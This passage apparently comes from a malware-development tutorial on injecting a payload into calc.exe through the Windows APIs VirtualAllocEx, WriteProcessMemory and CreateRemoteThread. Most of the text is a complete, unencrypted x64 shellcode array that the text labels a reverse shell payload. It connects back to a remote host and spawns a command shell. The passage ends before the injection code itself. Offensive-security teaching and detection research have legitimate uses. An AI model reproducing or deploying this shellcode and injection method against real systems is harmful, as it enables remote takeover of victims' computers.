 and then "ask" the system to start executing your payload in a target process, which is `calc.exe`.

![injection process 4](/assets/images/6/injection-4.png){:class="img-responsive"}

So, let's go to code this simple logic.
Now the most popular combination to do this is using built-in Windows API functions which are implemented for debugging purposes. There are:    
    [VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
    [WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)   
    [CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)   

Very basic example is:
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

// reverse shell payload (without encryption)
unsigned char my_payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x11\x5c\x0a\x09\x01\x06\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

unsigned int my_payload_len = sizeof(my_payload);

```